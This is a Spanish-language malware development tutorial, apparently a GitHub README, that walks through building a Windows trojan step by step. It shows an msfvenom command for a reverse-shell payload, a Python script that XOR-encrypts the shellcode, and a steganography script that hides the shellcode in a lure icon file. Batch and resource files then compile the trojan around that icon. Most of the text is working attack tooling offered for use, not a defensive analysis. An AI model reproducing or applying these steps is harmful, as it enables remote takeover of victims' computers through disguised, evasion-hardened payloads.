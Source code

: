 ## DESARROLLO DE MALWARE BY @N3XU5_666

- Dependencias
```bash
apt update && apt upgrade
apt install curl python3
python3 -m pip install pillow wave numpy
```
NOTE: en Termux numpy se instala desde APT y python se ejecuta sin el '3'
- Descarga de imagen .ico
```bash
curl https://www.iconfinder.com/icons/7150904/download/ico/4096 -o pornhub.ico
```

- Payload|Shellcode:
```bash
msfvenom -p windows/x86/shell_reverse_tcp LHOST 0.0.0.0 LPORT 0000 -f raw -o shellcode.bin
```

- File xor.py
```python
import sys

def xor(inputData, encKey):

  encKey = str(encKey)
  l = len(encKey)
  outStr = b""

  for i in range(len(inputData)):
    cde = inputData[i]
    ck = encKey[i % len(encKey)]
    outStr += chr(cde ^ ord(ck)).encode('latin-1')

  return outStr

if name == "main":

  ENCRYPT_KEY = "wubbalubbadubdub"
  try:
    plainText = open(sys.argv[1], "rb").read()
    cipherText = xor(plainText, ENCRYPT_KEY)
    open("encrypted.bin", "wb").write(cipherText)
  except:
    print(f"Usage: python3 {sys.argv[0]} <payload file>")
    sys.exit(1)
```

- Encrypt payload :
```bash
python xor.py shellcode.bin #Crea un archivo llamado encrypted.bin
```

- Archivo lsb.py
```python
from PIL import Image
from pydub import AudioSegment
import numpy as np
import wave
import sys

def printHelp():

  print(f"""
Usage:


Hide message:

python3 {sys.argv[0]} -hide <image path> <message file> <output image path>


Unhide message:

python3 {sys.argv[0]} -extract <image path>
      """)

def hideBits(orig, msgFile, dest):

  img = Image.open(orig,'r')
  width, height = img.size
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  message = open(msgFile, "rb")
  message = message.read()
  message += b"$end_of_message$"
  b_message = ''.join([format(i, "08b") for i in message])
  req_pixels = len(b_message)
  if req_pixels > total_pixels:
    print("ERROR: Need larger file size")
  else:
    index = 0
    for p in range(total_pixels):
      for q in range(0,3):
        if index < req_pixels:
          array[p][q] = int(bin(array[p][q])[2:9] + b_message[index],2)
          index += 1
    array = array.reshape(height, width, n)
    enc_img = Image.fromarray(array.astype('uint8'), img.mode)
    enc_img.save(dest)
    print("\nHidden message successfully!\n")

def extract(path):

  img = Image.open(path, 'r')
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  hidden_bits = ""
  for p in range(total_pixels):
    for q in range(0,3):
      hidden_bits += (bin(array[p][q])[2:][-1])
  hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
  message = b""
  for i in range(len(hidden_bits)):
    if message[-16:] == b"$end_of_message$":
      break
    else:
      message += chr(int(hidden_bits[i],2)).encode('latin-1')
  dstFile = open("message.bin", "wb")
  if b"$end_of_message" in message:
    dstFile.write(message[:-16])
    print("\nUnhidden message successfully!\n")
  else:
    print("\nNo Hidden Message Found\n")

if name == "main":

  if len(sys.argv) != 5 and len(sys.argv) != 3:
    printHelp()
    sys.exit(1)
  if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
    printHelp()
    sys.exit(1)
  if sys.argv[1] == "-hide":
    if len(sys.argv) != 5:
      printHelp()
      sys.exit(1)
    hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
  else:
    if len(sys.argv) != 3:
      printHelp()
      sys.exit(1)
    extract(sys.argv[2])
```
- Inyecta el shellcode en la imagen
```bash
python3 -hide pornhub.ico shellcode.bin pornhublsb.ico
```
- Extrae el shellcode de la imagen
```bash
python3 -extract pornhublsb.ico # Crea archivo message.bin
```
#### REFERENCIAS :
| [SHELLCODES](http://shell-storm.org/shellcode/index.html) | Shellcodes pre-creados |
| [DONUT](https://github.com/TheWover/donut) | Convierte codigo cpp compilado a shellcode |

## SCRIPTS EN BATCH PARA COMPILAR TROJANO
Proceso desde SO Windows
- Compilador (VS-code) FILE: compile.bat
```
@ECHO OFF

rc resources.rc
cvtres /nologo /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /0x /MI /W0 /GS- /DNDBUG /Tp trojan.cpp /Link /OUT:resources.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```
#### REFERENCIAS :
[COMPILER-FLAGS](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options-listed-alphabetically?view=msvc-170) | Banderas de compilacion. Se pueden modificar en base al compilador a usar.

- resources.rc
```
#include "resources.h"

MY_ICON RCDATA pornhublsb.ico
```
- resources.h
```
#define My_ICO 200
```
- trojan1.cpp
```
Pendiente para la siguiente sesion de sabado 10/12/2022
```
- Proceso de compilacion desde el x64 Native Tools Command Prompt for Visual Studio
Los native tools ya vienen instalados al instalar [FLARE-VM](https://github.com/mandiant/flare-vm) | Software de Analisis de malware
```
compile.bat 
```

#### Sigueme en todas las [Redes_Sociales](https://wlo.link/@Ivam3)
#### Sigue a N3XU5 en [Telegram](https://t.me/N3XU5_666). [Grupo_CyberneticOps](https://t.me/CyberneticOps), [Canal_CyberOps](https://t.me/CyberOpsChannel), & [YouTube](https://www.youtube.com/@N3XU5_666)
#### ASISTE al proximo [LIVESTREAM](https://t.me/Ivam3byCinderella?livestream)
